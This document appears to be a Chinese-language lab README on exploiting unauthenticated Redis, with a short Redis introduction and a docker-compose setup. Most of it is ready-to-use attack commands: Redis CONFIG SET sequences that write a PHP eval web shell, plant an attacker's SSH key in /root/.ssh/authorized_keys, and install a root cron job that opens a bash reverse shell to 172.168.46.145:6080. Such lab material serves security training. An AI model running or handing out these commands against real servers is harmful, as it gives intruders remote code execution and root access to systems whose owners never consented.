

# Redis未授权访问

## Redis介绍
Redis是一个开源，高级的键值存储和一个适用的解决方案，用于构建高性能，可扩展的Web应用程序。
Redis有三个主要特点，使它优越于其它键值数据存储系统 -
* Redis将其数据库完全保存在内存中，仅使用磁盘进行持久化。
* 与其它键值数据存储相比，Redis有一组相对丰富的数据类型。
* Redis可以将数据复制到任意数量的从机中

切换到Docker目录下

```shell
docker-compose build
docker-compose up -d
```


## 获取webshell
redis获取webshell方式


登录测试


获取webshell
```
config set dir /www
config set dbfilename trojan.php
set a "<?php eval($_POST[shadow]) ?>"
save
```


## 访问ssh
在本地计算机上创建ssh密钥
```shell
ssh-keygen -t rsa
```

执行密钥生成命令，基本上是一路回车既可以了，但是需要注意的是：执行命令的过程中是会提示呢输入密钥的密码的，不需要密码直接回车就行

在ssh目录下会多出两个文件，id_rsa和id_rsa.pub，其中id_rsa是私钥，id_rsa.pub这个是公钥，然后就是想办法将公钥放在对方服务器的.ssh目录下

```shell
config set dir /root/.ssh
config set dbfilename authorized_keys
set a "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPIDP4MaWprjQiNZ2kcgcno2TcZiIrOjOB9ffzZc2K4+dldqoawVlDW8qDROWkWXqY+bIX6H4kePorGlX6SW8KYgP5KaG2FGIYeHiVqSrfm+VTxzmS1sOW3jkVXUZZBRdkpknY+0Pwy8aEHYXb+0wnRVeLgBZXb s1riu5@zhangjiangdeMBP\n\n"
save
```


## 利用crontab反弹shell

crontab的计划目录在 _var_spool/cron

```shell
config set dir /var/spool/cron
config set dbfilename root
set b "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/172.168.46.145/6080 0>&1\n\n"
save
```




